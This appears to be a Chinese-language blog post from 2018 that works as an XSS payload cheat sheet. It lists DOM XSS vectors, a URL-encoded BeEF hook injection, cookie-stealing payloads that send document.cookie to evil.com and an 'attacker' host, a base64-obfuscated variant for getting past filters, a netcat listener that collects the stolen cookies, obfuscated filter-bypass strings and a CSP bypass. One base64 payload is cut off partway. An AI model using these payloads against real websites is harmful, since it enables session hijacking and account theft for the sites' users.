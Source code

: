 ```yaml
---
layout: post
title:  XSS-Payload+姿势
noToc: true
date:   2018-12-18 09:30:00 +0800
tags: WEB安全 XSS
cover: '../assets/oauth.png'
---
```

### XSS-Payload+姿势

**0x1:XSS**

```html
btoa('<script>alert("xss")</script>')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="
btoa('<script>alert("xss")</script>1')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4x"
```

**0x2:基于POST的XSS**
如果遇到无法将基于POST的XSS转换为GET请求的情况(可能目标服务器上禁用了GET请求)，试试CSRF。

**0x3:DOM XSS**

```html
<target.com>/#<img/src/onerror=alert("XSS")>
beef的hook，urlencode

<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
#<img/src="1"/onerror=alert(1)>
#><img src=x onerror=prompt(1);>
```

**0x5:偷Cookie**

```html
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
Blacklist bypass:
```

**0x6:过滤了`//,:,",<`和`>`**

```php+HTML
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
payload:

eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raW
```

**0x7:另外一个**：

```html
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
比较不错的一个payload：

<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

**0x8:比较不错的一个payload**：

```
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
<img alt="<a href="onclick=alert(4)//" src=x>">s</a>
<details/open/ontoggle="a=alert;a`1`">
<details/open/ontoggle="a=eval,b=alert,c=b`1`,a`b`">
```

nc 监听：

nc -lvp 8090

**0x9:常用的payload**

```html
svg/onload'-alert(1)-'
<details/open/ontoggle="a=eval,b=alert,c=b`1`,a`b`">
eval(atob('YWxlcnQoMSk='))
<iMg SrC=x OnErRoR=alert(1)>
<div onmouseover="alert('XSS');">
</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>
x@x.com<--`<img/src=` onerror=alert(1)> --!>
""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()
oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/o
CSP BYPASS
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

